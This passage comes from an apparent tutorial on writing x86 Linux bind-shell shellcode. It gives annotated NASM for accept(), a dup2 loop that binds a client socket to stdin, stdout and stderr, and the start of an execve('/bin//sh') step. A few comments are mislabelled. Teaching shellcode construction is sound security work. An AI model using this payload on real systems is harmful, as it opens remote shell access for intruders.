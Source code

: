 ```nasm
xor eax, eax     ; This sets the EAX Register to NULL (all zeros).
mov al, 0x66     ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
xor ebx, ebx     ; This sets the EBX Register to NULL (all zeros).
mov bl, 0x5      ; EBX is set to accept().
xor ecx, ecx     ; This sets the ECX Register to NULL (all zeros).
push ecx         ; ECX[2]. Push the value 0x0 to the stack.
push ecx         ; ECX[1]. Push the value 0x0 to the stack.
push esi         ; ECX[0]. This is the value we saved from creating the Socket earlier. 
mov ecx, esp     ; Point ECX to the top of the stack. 
int 0x80         ; System Call Interrupt 0x80 
xchg ebx, eax    ; The created clientSocket is stored in EAX after receiving a connection.
```

### 6. Transfer STDIN, STDOUT, and STDER to the Connected Session
#### C Function
```c
int dup2(int oldfd, int newfd);  
```
#### Our C Function            
```c
dup2( clientSocket, 0 ); // STDIN
dup2( clientSocket, 1 ); // STDOUT
dup2( clientSocket, 2 ); // STDERR
EAX       EBX      ECX     
```
+ `EAX = 63 = 0x3F`
  - This is the value to call the SYSCAL `dup2`.  
  - Find Dup2 SYSCAL value:  
```console
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep dup2
  #define __NR_dup2  63
```   
+ `EBX = int oldfd = clientSocket`
  - Already set with `xchg ebx, eax` after the execution of `accept()`.  
+ `ECX = 2 & 1 & 0 = 0x2 & 0x1 & 0x0`
  - Since we need to do this SYSCAL 3 times, we will use a loop.

```nasm  
 xor eax, eax   ; This sets the EAX Register to NULL (all zeros).
 xor ecx, ecx   ; This sets the ECX Register to NULL (all zeros). 
 mov cl, 0x2    ; This sets the loop counter, and 
                ;  will also be the value of "int newfd" for the 3 dup2 SYSCAL's.
dup2Loop:       ; Procedure label for the dup2 Loop.
 mov al, 0x3f   ; EAX is now 0x0000003F = SYSCALL 63 - dup2
 int 0x80       ; System Call Interrupt 0x80 - Executes accept(). 
                ;   Allowing us to create connected Sockets. 
 dec ecx        ; Decrements ECX by 1 
 jns dup2Loop   ; Jump back to the dup2Loop Procedure until ECX equals 0.
```  

### 7. Spawn a `/bin/sh` shell for the client, in the connected session
#### Default C Function
```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```  
#### Our C Function
```c
; execve("/bin//sh", NULL, NULL);
;  EAX      EBX       ECX   EDX
```
The Execve SysCall is used to execute programs on the linux system. In our case, we will execute a shell in the connected socket.  